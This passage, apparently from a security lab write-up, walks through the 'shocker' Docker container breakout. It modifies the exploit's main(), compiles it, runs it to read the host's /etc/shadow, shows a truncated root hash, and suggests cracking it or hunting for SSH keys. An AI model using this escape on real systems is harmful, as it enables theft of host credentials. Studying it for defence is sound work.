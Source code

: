 Before we compile it, we need to still change **int main()**:
```
int main()
{
	char buf[0x1000];
	int fd1, fd2;
```
To the following:
```
int main(int argc, char**argv)
{
	char buf[0x1000];
	int fd1, fd2;
```


We can now specify the file to look for via the command line!

Next, compile the script:
```
root@1a7416577c80:~# gcc shocker.c -o shocked
```
And run it (we output to a file called 'shadow' here using &> shadow):
```
root@1a7416577c80:~# ./shocked /etc/shadow/ &> shadow
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[...]
[*] Found shadow
[+] Match: shadow ino=61498
[*] Brute forcing remaining 32 bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x3a, 0xf0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00}; 
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x3a, 0xf0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
root@1a7416577c80:~#
```
When you look at the outputfile you will see the contents of **/etc/shadow** from the host system.
```
root@1a7416577c80:~# cat shadow
root:$6$TvYo6Q8EXPuY[...]
daemon:*:18526:0:99999:7:::
bin:*:18526:0:99999:7:::
sys:*:18526:0:99999:7:::
[...]

```

All we have to do now is to try to crack the hash! or look into other files for other juicy information like the ssh key. 
A very detailed explanation about this exploit can be found [here](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3).
